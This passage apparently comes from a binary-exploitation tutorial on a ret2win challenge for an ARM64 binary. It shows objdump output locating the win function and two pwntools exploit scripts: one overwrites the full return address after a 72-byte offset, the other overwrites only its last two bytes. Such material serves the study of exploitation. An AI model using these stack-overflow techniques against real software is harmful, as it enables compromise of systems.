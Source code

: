 ```bash
objdump -d ret2win | grep win
ret2win:     file format elf64-littleaarch64
00000000004006c4 <win>:
```

Exploit:

```python
from pwn import *

# Configuration
binary_name = './ret2win'
p = process(binary_name)

# Prepare the payload
offset = 72
ret2win_addr = p64(0x00000000004006c4)
payload = b'A' * offset + ret2win_addr

# Send the payload
p.send(payload)

# Check response
print(p.recvline())
p.close()
```

<figure><img src="../../../.gitbook/assets/image (1211).png" alt="" width="375"><figcaption></figcaption></figure>

### Off-by-1

Actually this is going to by more like a off-by-2 in the stored PC in the stack. Instead of overwriting all the return address we are going to overwrite **only the last 2 bytes** with `0x06c4`.

```python
from pwn import *

# Configuration
binary_name = './ret2win'
p = process(binary_name)

# Prepare the payload
offset = 72
ret2win_addr = p16(0x06c4)
payload = b'A' * offset + ret2win_addr

# Send the payload
p.send(payload)

# Check response
print(p.recvline())
p.close()
```
